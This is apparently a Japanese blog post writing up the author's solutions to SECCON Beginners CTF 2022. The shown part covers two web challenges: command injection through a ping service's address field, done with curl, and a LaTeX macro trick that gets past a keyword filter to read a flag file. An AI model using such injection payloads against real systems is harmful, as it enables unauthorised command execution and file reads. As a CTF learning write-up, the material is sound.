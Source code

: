 # SECCON Beginners CTF 2022 Write-Up
(2022/6/9)

昨年に引き続きSECCON Beginners CTFに参加しました。1人で参加して、結果は65位（1106pt）でした。昨年は92位だったので順位が上がって良かったです。一方で、PwnableとReversingが全然解けませんでした。ちゃんと勉強します…

## 目次
* [Util (Web)](#util-web)
* [textex (Web)](#textex-web)
* [gallery (Web)](#gallery-web)
* [serial (Web)](#serial-web)
* [phisher (Misc)](#phisher-misc)
* [H2 (Misc)](#h2-misc)
* [ultra_super_miracle_validator (Misc)](#ultra_super_miracle_validator-misc)
* [hitchhike4b (Misc)](#hitchhike4b-misc)
* [Quiz (Reversing)](#quiz-reversing)
* [CoughingFox (Crypto)](#coughingfox-crypto)
* [PrimeParty (Crypto)](#primeparty-crypto)
* [Command (Crypto)](#command-crypto)

## Util (Web)
入力したIPアドレスにpingを飛ばすウェブサービスからフラグを得る問題です。

ソースコードを見ると受け取った入力をコマンドにそのまま埋め込んでシェルで実行していたので、入力の末尾に`; ls`や`; cat ...`を付けて送れば良さそうです。

さらに読み進めるとフロントエンドでは入力がIPアドレスかどうか検証しているがバックエンドでは検証していないことに気づきました。よって、curlからリクエストを送れば検証を避けられます。

最終的に以下のコマンドを実行してフラグを得ました。
```bash
curl -H "Content-Type: application/json" -d '{"address": "127.0.0.1; ls /"}' https://util.quals.beginners.seccon.jp/util/ping
curl -H "Content-Type: application/json" -d '{"address": "127.0.0.1; cat flag_A74FIBkN9sELAjOc.txt"}' https://util.quals.beginners.seccon.jp/util/ping
```

## textex (Web)
TeXをPDFに変換するウェブサービスからフラグを得る問題です。

中身を見ると`flag`というファイルにフラグが保存されていることが分かるのでこのファイルを読み込めばいいのですが、TeXコード内の`flag`はサーバー内で消されてしまうので工夫が必要です。

その工夫はすぐに思いつきました。マクロを使って`flag`という文字列を動的に生成すればいいです。そこで以下のコードを送ってみます。

```latex
\documentclass{article}
\newcommand{\x}[1]{fl#1}
\newcommand{\y}{\x{ag}}
\begin{document}

\input{\y}

\end{document}
```
